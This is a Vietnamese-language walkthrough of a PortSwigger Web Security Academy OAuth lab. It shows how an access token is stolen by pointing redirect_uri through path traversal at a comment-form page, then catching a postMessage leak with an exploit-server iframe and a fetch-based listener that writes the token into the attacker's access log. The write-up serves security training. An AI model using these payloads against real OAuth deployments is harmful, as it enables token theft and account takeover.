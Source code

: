 Lab này tương tự như Lab #4, tuy nhiên không còn chức năng view next post để có thể lợi dụng chuyển hướng victim request đến page của attacker nữa.
Tuy nhiên bài này có 1 tính năng khác có thể bị lợi dụng là: khi thực hiện post comment lên thì ứng dụng gọi đến `/post/comment/comment-form` để lấy giá trị người dùng nhập vào sau đó mới chuyển lên cửa sổ cha (windows hoặc iframe khác) để thực hiện post comment thông qua đoạn code javascript bên dưới đây:
```javascript
       <script>
            parent.postMessage({type: 'onload', data: window.location.href}, '*')
            function submitForm(form, ev) {
                ev.preventDefault();
                const formData = new FormData(document.getElementById("comment-form"));
                const hashParams = new URLSearchParams(window.location.hash.substr(1));
                const o = {};
                formData.forEach((v, k) => o[k] = v);
                hashParams.forEach((v, k) => o[k] = v);
                parent.postMessage({type: 'oncomment', content: o}, '*');
                form.reset();
            }
        </script>
```

Do vậy thực hiện phương thức như cách trong Lab #4, ta sẽ chuẩn bị 1 link URL như sau: `GET /auth?client_id=q9id6iqgkkwkytx9jb4jr&redirect_uri=https://0aa700bf0431cf8980cebcf900af00bf.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=792677125&scope=openid%20profile%20email` để gửi cho victim click vào thông qua Exploit Server.
=> Trên Exploit Server nhúng 1 đoạn iframe để gửi đến victim:
```html
<iframe src='<HOST-LAB-DOMAIN>/auth?client_id=q9id6iqgkkwkytx9jb4jr&redirect_uri=https://0aa700bf0431cf8980cebcf900af00bf.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=792677125&scope=openid%20profile%20email'></iframe>
```
Thêm đoạn code sau bên dưới để trigger người dùng sau khi truy cập vào link trên sẽ lấy listen link redirect nhận được và lấy giá trị URI fetch lên / của exploit server luôn => Sau này hacker sẽ lấy thông tin này ra từ access log của Exploit Server.
```javascript
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

Sau khi Store payload và gửi đến victim => Check access log sẽ thấy dữ liệu access_token:

<img width="552" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/86d2bcb6-8adc-495d-bd63-d99676d5dd9a">

Sử dụng token đó truy cập vào link `/me` (tương tự lab trước):

<img width="486" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/830ee4e1-9fc4-4390-8679-180bd467d12b">

Sau khi lấy đc thông tin apikey, tực hiện submit và LAB Solved!

<img width="594" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/23566d32-39a8-4ca4-bf0e-bd9899b72c37">
